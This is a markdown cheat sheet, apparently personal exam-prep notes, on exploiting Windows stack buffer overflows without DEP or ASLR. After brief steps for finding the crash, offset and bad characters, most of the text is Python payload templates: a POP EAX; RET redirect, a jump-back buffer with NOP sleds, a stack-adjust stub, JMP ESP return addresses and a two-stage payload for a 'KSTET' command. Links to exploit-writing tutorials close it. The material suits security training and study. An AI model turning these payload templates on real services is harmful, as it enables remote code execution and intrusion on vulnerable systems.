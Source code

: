 # Stack Buffer Overflow (no DEP, no ASLR)

## Step
1. Find initial crash
2. Find offset with:
```py
!py mona pc XXX 
```
3. Find badchar:

```py
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

4. Exploit:

	1. Is there a lot of space? 
	```py
	!py mona jmp -r esp -cpb '\x00' 
	```
	2. There isn't space? Try with:
		
		1.  Try with POP 32; RET and you will point to the Cs
		
		```py
		httpMethod = b"C" * 8 +  b" /" 
		inputBuffer = b"A" * 253 
		inputBuffer += pack("<I",0x00418674) #00418674 pop eax; ret
		httpEndRequest = b"\r\n\r\n" 
		```
		
		2. Try with Jump back
		
		```py
		buffer = b"\x90"*1672
		sub_esp = b"\x83\xEC\x64\x90" * 5 #ESP - 500, (sub esp 100*5)
		buffer += sub_esp
		buffer += shellcode
		buffer += b"\x90"*(388-len(shellcode))
		buffer += pack("<I", 0x1480113d) # : jmp esp 1480113d
		buffer += b"\x90"*3
		buffer += b"\xe9\x07\xfe\xff\xff" #jmp -500 E907FEFFFF
		buffer += b"D"* (total - len(buffer))
		```
		
		3. Look to the other registers. Are there any other near the payload?
		
		```py
		VULNSRVR_CMD = b"KSTET "  # change me
		size = 132  # change me

		stage_one  = b"\x83\xc0\x06"   # add eax,byte +0x6
		stage_one += b"\xff\xe0"  # jmp eax

		payload = VULNSRVR_CMD
		payload += b"A"*70
		payload += struct.pack("<I",0x62501203) #jmp esp 62501203
		payload += b"\x90" * 4
		payload += stage_one
		payload += b"C"*(size-len(payload))
		```

## Resources
1. https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
2. https://epi052.gitlab.io/notes-to-self/blog/2020-05-13-osce-exam-practice-part-one/
3. https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
4. https://www.bordergate.co.uk/dealing-with-small-buffer-space/
